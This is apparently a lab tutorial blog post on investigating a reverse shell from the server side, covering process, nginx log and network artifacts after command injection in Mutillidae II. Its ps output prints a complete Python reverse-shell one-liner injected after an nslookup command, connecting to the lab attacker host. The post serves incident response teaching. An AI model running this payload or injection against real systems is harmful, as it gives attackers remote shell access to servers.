


# Reverse Shell: Process, Log, and Network Analysis

[🇮🇩 Read in Indonesian](reverse-shell-server-side.md)

Hello everyone,

In the previous article, we successfully obtained a **Reverse Shell** through a **Command Injection** vulnerability in the **Mutillidae II** web application.

👉 **Previous article:**

https://imoon07.github.io/read.html?post=command-injection-reverse-shell&lang=en

This time, we'll switch perspectives.

Instead of looking at the attack from the attacker's point of view, we'll examine it from the server side to understand what artifacts are left behind after a Reverse Shell is established.

This article focuses on three primary artifacts that can be observed directly on a Linux server:

- Process
- Log
- Network

---

# What is Reverse Shell Analysis?

Reverse Shell Analysis is the process of investigating a compromised server after a Reverse Shell has been executed.

Rather than explaining how the payload works, this article focuses on **what changes inside the operating system** once the attacker gains remote shell access.

Understanding these artifacts helps system administrators, security analysts, and incident responders identify suspicious activity and reconstruct an attack.

---

# Why is it Important?

Once a Reverse Shell is established, the server typically leaves several observable artifacts, including:

- Newly spawned processes
- Web server access logs
- Outbound network connections

Although different payloads may be used, these artifacts often remain consistent and provide valuable evidence during an investigation.

---

# Prerequisites

This article continues from the previous Reverse Shell demonstration.

Before following this guide, make sure a Reverse Shell has already been established through a **Command Injection** vulnerability.

```text
Command Injection
        │
        ▼
Command Execution
        │
        ▼
Reverse Shell
```

---

# Investigation Flow

```text
         Reverse Shell
                │
                ▼
     Process Investigation
                │
                ▼
       Log Investigation
                │
                ▼
    Network Investigation
```

---

# Lab Topology

| Role | Description | IP Address |
| :--- | :--- | :--- |
| **Attacker** | Kali Linux | `10.10.10.149` |
| **Target** | Ubuntu Server (Mutillidae II) | `10.10.10.2` |

---

# Demonstration

## 1. Process Investigation

The first step is identifying suspicious processes running on the target system.

```bash
ps aux | grep python
```


### Output

```text
root         874  0.0  1.1 109688 23292 ?        Ssl  11:57   0:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
www-data    3861  0.0  0.0   2800  1852 ?        S    16:13   0:00 sh -c -- nslookup google.com; python3 -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();'
www-data    3868  0.0  0.5  18648 11736 ?        S    16:13   0:00 python3 -c import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.149",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close();
```

### What was found?

The output shows a `python3` process running under the **www-data** account, which is typically used by Apache or Nginx to execute web applications.

It also reveals the following payload:

```text
nslookup google.com;
python3 -c ...
```

### What does it mean?

Under normal circumstances, the `www-data` account should only execute web application processes.

If this account starts running interpreters such as **Python**, **Bash**, **Perl**, or other scripting languages that initiate outbound connections, it is a strong indicator of **Command Injection** or **Remote Code Execution (RCE)**.

In this lab, the Python process becomes the first artifact indicating a successful Reverse Shell.

---

## 2. Log Investigation

The next step is reviewing incoming requests recorded by the web server.

```bash
tail -f /var/log/nginx/access.log
```


### Output

```text
10.10.10.149 - - [26/Jun/2026:16:10:05 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8771
10.10.10.149 - - [26/Jun/2026:16:10:55 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 200 8773
10.10.10.149 - - [26/Jun/2026:16:14:15 +0700] "POST /index.php?page=dns-lookup.php HTTP/1.1" 504 176
```

### What was found?

Multiple HTTP POST requests were sent to the following endpoint:

```text
/index.php?page=dns-lookup.php
```

originating from the attacker's IP address.

### What does it mean?

The repeated requests indicate that the attacker abused the vulnerable DNS Lookup feature to execute arbitrary commands.

Although the access log does not display the injected payload itself, information such as the source IP address, requested endpoint, HTTP method, and timestamps can be correlated with the suspicious Python process discovered earlier.

---

## 3. Network Investigation

One of the defining characteristics of a Reverse Shell is an outbound connection initiated by the compromised server.

Check active TCP connections using:

```bash
ss -tnp
```



### Output

```text
State      Recv-Q Send-Q Local Address:Port    Peer Address:Port
ESTAB      0      0      10.10.10.2:49342      10.10.10.149:9001
users:(("python3",pid=3868,fd=3))
```

### What was found?

An **ESTABLISHED** TCP connection exists between the server and the attacker's machine on port **9001**.

The connection belongs to the **python3** process with PID **3868**.

### What does it mean?

This confirms that the same Python process identified during the process investigation is responsible for maintaining the Reverse Shell connection.

Correlating the **process**, **PID**, and **network connection** provides strong evidence that an interactive Reverse Shell session is active.

---

To inspect the network traffic itself, packet capture can be performed using:

```bash
sudo tcpdump -i any port 9001 -nn -A
```



### Output

```text
16:13:15.687717 ens33 Out IP 10.10.10.2.49342 > 10.10.10.149.9001

www-data@server01:/var/www/hack/mutillidae/src$
```

### What was found?

The packet capture reveals an interactive shell prompt:

```text
www-data@server01:/var/www/hack/mutillidae/src$
```

### What does it mean?

Since this Reverse Shell communicates over an unencrypted TCP session, its contents can be observed directly in plaintext.

The shell prompt confirms that the attacker successfully obtained an interactive shell on the target server.

---

# Summary of Findings

| Artifact | Observation |
| :--- | :--- |
| **Process** | `python3` executed by the `www-data` account |
| **Log** | Repeated HTTP POST requests targeting `dns-lookup.php` |
| **Network** | Outbound TCP connection to the attacker's host on port `9001` |

These artifacts complement one another and provide a clear picture of the attack without requiring specialized forensic tools.

---

# What Comes Next?

Now that we've examined the artifacts left behind by a Reverse Shell, the next step is performing **Linux Enumeration** to better understand the compromised system.

The following topics will include:

- Current user identification
- Operating system and kernel information
- File system exploration
- Network configuration
- Running services and processes

---

# Conclusion

A Reverse Shell provides remote access to an attacker, but it also leaves observable traces on the target system.

By investigating **running processes**, **web server logs**, and **network connections**, defenders can reconstruct the attack and better understand how the compromise occurred.

Although this demonstration was performed in a controlled lab environment, the same investigation approach can serve as a practical foundation for analyzing suspicious post-exploitation activity on Linux systems.

---

# References

- MITRE ATT&CK – T1059: Command and Scripting Interpreter  
  https://attack.mitre.org/techniques/T1059/

- Nginx Documentation – Access Log  
  https://nginx.org/en/docs/http/ngx_http_log_module.html

- Linux Manual Pages  
  https://man7.org/linux/man-pages/

- tcpdump Documentation  
  https://www.tcpdump.org/

---

Thank you for reading.

I hope this article helps you better understand how a Reverse Shell appears from the server's perspective and how simple Linux utilities can be used to investigate suspicious activity in a controlled environment.
